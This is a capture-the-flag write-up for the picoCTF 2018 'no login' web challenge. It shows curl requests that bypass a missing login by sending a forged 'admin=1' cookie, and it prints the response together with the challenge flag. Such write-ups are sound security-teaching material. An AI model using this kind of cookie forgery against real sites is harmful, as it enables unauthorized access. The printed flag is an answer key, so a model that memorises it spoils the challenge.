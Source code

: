 # Problem
Looks like someone started making a website but never got around to making a login, but I heard there was a flag if you were the admin. [http://2018shell1.picoctf.com:39670](http://2018shell1.picoctf.com:39670)

## Hints:
What is it actually looking for in the cookie?

## Solution:

Lets try to view the website:
```bash
curl http://2018shell1.picoctf.com:39670

<!DOCTYPE html>
<html lang="en">

<head>
    <title>My New Website</title>

    <link href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="#">Home</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign In</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">My New Website</h3>
        </div>
         
        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
        
      
        <div class="jumbotron">
            <p class="lead"></p>
            <p><a href="/flag" class="btn btn-lg btn-success btn-block"> Flag</a></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2018</p>
        </footer>

    </div>
</body>
```

We can see a link to "flag" page, Lets check it out:
```bash
curl http://2018shell1.picoctf.com:39670/flag

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

NADA, the hint says that the site is looking for a cookie. Lets try to send one:

OK, lets view this file:
```bash
#!/bin/bash

curl -v --cookie "admin=1" http://2018shell1.picoctf.com:39670/flag | grep picoCTF

*   Trying 18.223.208.176...
* TCP_NODELAY set
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 2018shell1.picoctf.com (18.223.208.176) port 39670 (#0)
> GET /flag HTTP/1.1
> Host: 2018shell1.picoctf.com:39670
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: admin=1
> 
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1343
< Set-Cookie: admin=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Path=/
< 
{ [1343 bytes data]
* Curl_http_done: called premature == 0
100  1343  100  1343    0     0   4233      0 --:--:-- --:--:-- --:--:--  4277
* Connection #0 to host 2018shell1.picoctf.com left intact
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}</code></p>
```

Nice, we got it!

Flag: picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}
